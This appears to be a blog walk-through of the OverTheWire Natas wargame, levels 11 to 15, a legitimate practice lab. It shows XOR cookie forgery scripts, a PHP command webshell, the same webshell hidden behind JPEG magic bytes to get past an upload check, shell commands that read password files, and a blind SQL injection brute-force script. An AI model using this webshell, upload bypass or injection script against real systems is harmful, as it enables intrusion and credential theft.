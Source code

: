 ```yaml
---
layout: post
title: "OverTheWire - Natas Levels 11 - 15"
date: 2017-02-22
description: "Walk-through guide to OverTheWire Natas."
number: "0x0e"
---
```

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

This is my write-up of the [OverTheWire](http://overthewire.org) wargame [Natas](http://overthewire.org/wargames/natas/) levels 11 - 15. The write-up for levels 0 - 10 can be found [here](/blog/2016/10/05/overthewire-natas). If you notice any problems please [contact](/contact) me to let me know.
 
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

\-\-[ Level 11 ]

This level took me a good amount of time to get through. I had to do a lot of reading about XOR encryption and the PHP functions to figure it out. Even then I had to Google for some help.

The home page displays a title stating 'Cookies are protected with XOR encryption'. 

Looking at the cookie in Burp we see one titled 'data' with the value

{% highlight html %}
data=ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D 
{% endhighlight %}

So this is Base64 encoded.

When viewing the SRC we can see that in order to view the password we need to set the `showpassword` key of `$data` to `yes`. To do this we need to load the encrypted array into our cookie. So we need the key to encrypt the cookie.

XOR encryption works like this:

{% highlight html %}
Data XOR Key = Encrypted_data 
          and 
Data XOR Encrypted_data = Key
{% endhighlight %}

So we can get the key using this information. 

Using the PHP functions from the SRC we can write

{% highlight php linenos %}
<?php

 $cookie = base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw');

 function xor_encrypt($in) {  
   $text = $in;  
   $key = json_encode(array( "showpassword"=>"no", "bgcolor"=>"#ffffff"));  
   $outText = '';

   // Iterate through each character  
   for($i=0;$i<strlen($text);$i++) {  
   $outText .= $text[$i] ^ $key[$i % strlen($key)];  
   }  
   return $outText;  
 }  
 print xor_encrypt($cookie);
 ?>  
{% endhighlight %}

And when we run it we get

{% highlight shell %}
$ natas11.php
qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq 
{% endhighlight %}

So we can modify our PHP script to output our encrypted cookie value

{% highlight php linenos %}
<?php

 function xor_encrypt() {  
   $text = json_encode(array( "showpassword"=>"yes", "bgcolor"=>"#ffffff"));  
   $key = "qw8J"

   $outText = '';

   // Iterate through each character  
   for($i=0;$i<strlen($text);$i++) {  
   $outText .= $text[$i] ^ $key[$i % strlen($key)];  
   }  
   return $outText;  
 }  
 print base64_encode(xor_encrypt());
 ?>  
{% endhighlight %}

And when we run it we get

{% highlight shell %}
$ natas11.php
ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
{% endhighlight %}

So now we set our cookie value in Burp and forward the request and the password is displayed on the page.

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

\-\-[ Level 12 ]

For this level we need to upload a simple webshell. We can use the following PHP script as a webshell upload

{% highlight php %}
<?php
	system($_GET['cmd']);
?>
{% endhighlight %}

We need to change the file type before it can be run as PHP code. We can make this change with Burp before forwarding the request. 

It creates a random string as a URL for the upload. You can see the filename `5wvclpqf2v.php`.

![](/pictures/natas_1.png){:height="337px" width="586px"}

Once it is uploaded we can navigate to `/5wvclpqf2v.php?cmd=cat /etc/natas_webpass/natas13` and the password is displayed on the screen.

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

\-\-[ Level 13 ]

This level is similar to the previous one in that we need to upload a webshell in lieu of an image file.

However, this level uses the PHP [exif_imagetype()](https://secure.php.net/manual/en/function.exif-imagetype.php) function to determine if the upload is, in fact, an image.

When reading the documentation we can see the function is checking for a signature that corresponds with an image file. Signatures can be found [here](https://en.wikipedia.org/wiki/List_of_file_signatures).

Unfortunately, we can't just copy and paste the text signature into our script like we can with PDFs. So we need to write it to the file using the hex escape (\x):

{% highlight shell %}
$ python
>>> shell = open('shell.php','w')
>>> shell.write('\xFF\xD8\xFF\xE0' + '<?php system($_GET["cmd"]); ?>')
>>> shell.close()
{% endhighlight %}

We can check if it worked 

![](/pictures/natas_2.png){:height="34px" width="263px"}

Success!

Now we can upload as per the previous level, ensuring we change the file extension to `.php` in Burp.

Then we access the URL of the upload 

`/xxxxxx.php?cmd=cat /etc/natas_webpass/natas14`

The password prints on screen, but be sure to remove the signature from the front of it.

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

\-\-[ Level 14 ]

For this level we need to get response from the MySQL server that gives us more than 0 rows. So looks like a SQL injection.

After trying a few combinations I found one that worked

![](/pictures/natas_3.png){:height="106px" width="322px"}

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

\-\-[ Level 15 ]

Another SQL injection level, although I found this one a bit more complex.

The source code for this level tells us that there are `user` and `password` tables in the database, and there is a script that echos back a string if our query returns a row from the database. This is an example of blind SQL injection.

Knowing this, we have to brute force a username and password (both a maximum of 64 characters) to see if a `"This user exists"` string is echoed back.

Assuming the username was `natas16` turned out to be correct as it told us that it existed. So I wrote a Python script to brute force the password incrementally character by character:


{% highlight python linenos %}
#!/bin/python

import requests

url = "http://natas15:**PASSWORD**@natas15.natas.labs.overthewire.org/"

chars = "abcdefghijklmnopqrstuvwyxzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"

passwd_chars = ''
passwd = ''
exists = "This user exists."

for char in chars:
	r = requests.get(url+'?username=natas16" AND password LIKE BINARY "%'+char+'%" "')
	if exists in r.text:
		passwd_chars += char
		print passwd_chars

print 'Brute forcing password..'

for i in range(32):
	for char in passwd_chars:
		r = requests.get(url+'?username=natas16" AND password LIKE BINARY "'+passwd+char+'%" "')
		if exists in r.text:
			passwd += char
			print passwd
{% endhighlight %}			

The first code block narrows down the characters in the password by checking against all characters. This utilises the SQL [BINARY](https://dev.mysql.com/doc/refman/5.5/en/cast-functions.html#operator_binary) and wildcard (%) operators to help match the password to the characters.

The second code block bruteforces the password characters in the correct position (note the absence of the first wildcard operator in the query). Although the database comment in the source code allows for a 64 character password, all other passwords so far have only been 32 character, so I went with that.

{% highlight shell %}
$ python natas15.py 
a
ac
ace
aceh
...
acehijmnpqtwBEHINORW35
acehijmnpqtwBEHINORW356
acehijmnpqtwBEHINORW3569
acehijmnpqtwBEHINORW35690
Brute forcing password..
W
Wa
WaI
WaIH
WaIHE
WaIHEa
WaIHEac
...
{% endhighlight %}

And there we have it. This took me a while to get the script right, and to get my head around how the queries should work, but I am happy with the final result.


\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

[Levels 0 - 10](/blog/2016/10/05/overthewire-natas)

More levels coming soon...

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
